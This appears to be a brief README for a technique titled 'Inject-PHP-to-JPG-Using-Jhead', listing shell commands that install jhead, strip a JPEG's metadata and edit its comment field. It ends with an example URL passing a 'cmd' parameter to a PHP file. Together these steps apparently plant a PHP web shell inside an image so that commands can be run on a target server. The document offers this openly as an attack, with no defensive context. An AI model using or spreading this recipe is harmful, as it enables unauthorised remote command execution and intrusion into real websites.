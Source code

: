 # Inject-PHP-to-JPG-Using-Jhead

$ pkg install vim or apt-get install vim
$ pkg install jhead or apt-get install jhead
$ jhead -h (for help)
$ jhead -purejpg yourfiles.jpg
$ jhead -ce yourfiles.jpg
$ jhead yourfiles.jpg

Example : site.com/youfiles.php?cmd=Command Here
